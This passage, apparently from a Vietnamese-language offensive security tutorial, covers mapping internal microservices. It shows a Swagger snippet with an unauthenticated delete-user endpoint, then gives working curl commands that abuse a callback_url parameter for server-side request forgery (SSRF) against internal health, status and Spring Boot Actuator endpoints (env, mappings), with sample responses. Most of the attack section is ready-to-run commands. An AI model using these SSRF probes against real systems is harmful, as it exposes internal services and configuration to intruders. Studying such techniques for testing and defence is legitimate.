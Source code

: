 ```json
{
  "swagger": "2.0",
  "paths": {
    "/api/users": {
      "get": {
        "summary": "Get all users",
        "security": [{"Bearer": []}]
      }
    },
    "/api/users/delete/{id}": {
      "delete": {
        "summary": "Delete user by ID",
        "security": []  ← NO SECURITY!
      }
    }
  }
}
```

**→ Full API documentation với tất cả endpoints!** 🎉

---

## 🔍 **PHƯƠNG PHÁP 4: SSRF SELF-ENUMERATION**

### **Dùng SSRF để service tự "nói" về chính nó!**

#### **Technique 1: Health/Status Endpoints**

```bash
# Common health check endpoints
curl "https://yourapp.com/api/inventory/1/M?callback_url=http://user-service:8081/health"
curl "https://yourapp.com/api/inventory/1/M?callback_url=http://user-service:8081/actuator/health"
curl "https://yourapp.com/api/inventory/1/M?callback_url=http://user-service:8081/status"
curl "https://yourapp.com/api/inventory/1/M?callback_url=http://user-service:8081/info"

# Response có thể chứa:
{
  "status": "UP",
  "components": {
    "db": {"status": "UP"},
    "userService": {"status": "UP", "version": "1.0.0"}
  }
}
```

#### **Technique 2: Spring Boot Actuator (Java services)**

```bash
# Spring Boot Actuator endpoints
curl "...?callback_url=http://user-service:8081/actuator"

# Response:
{
  "_links": {
    "beans": {"href": "http://user-service:8081/actuator/beans"},
    "env": {"href": "http://user-service:8081/actuator/env"},
    "mappings": {"href": "http://user-service:8081/actuator/mappings"}
  }
}

# Get all endpoint mappings!
curl "...?callback_url=http://user-service:8081/actuator/mappings"

```